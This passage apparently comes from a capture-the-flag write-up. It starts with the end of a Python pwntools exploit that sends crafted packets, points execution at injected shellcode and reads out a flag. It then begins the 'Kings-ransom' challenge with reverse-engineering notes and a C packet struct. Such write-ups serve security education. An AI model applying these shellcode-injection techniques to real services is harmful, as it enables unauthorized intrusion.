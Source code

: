 ```python
part1 = payload[:7*8]
part2 = payload[7*8:]
# print("PART1", part1)
# print("PART2", part2)

# stored at A0180590
shellcode_loc = 0xA0180590

r.sendline(construct_payload(3, 0, part1))
if len(part2) > 0:
    r.sendline(construct_payload(3, 1, part2))

# p = construct_payload(5, 8, "CCCCDDDD")
p = construct_payload(5, 8, p32(shellcode_loc)*2)
r.sendline(p)

r.recv(8)

flag = ""
for i in range(100):
    flag += r.recv(4)
    r.recv(12)
    print("FLAG", flag)

r.interactive()
```

## Kings-ransom

```
Presents from Marco

A vulnerable service with your "bank account" information running on the target system. Too bad it has already been exploited by a piece of ransomware. The ransomware took over the target, encrypted some files on the file system, and resumed the executive loop.

Follow the footsteps.
```

In this challenge, we're given a vulnerable binary. After reverse engineering, we find:

- The binary mmaps a rwx page at 0x12800000.
- Part of the flag contents are read to 0x12800000.
- We are able to send "packets" that allow us to perform virtual function calls.
- Functions we can call include: read_from_rwx_page, store_to_rwx_page, float_accumulate, print_float_data.
- Each packet has a crc-like checksum, which we re-implemented in python in order to construct valid packets.

The structure of a packet is:

```C
struct packet
{
  char magic1;
  char magic2;
  __int16 size;
  __int16 crc;
  char vtable_row;
  char vtable_col;
  char data[];
};
```
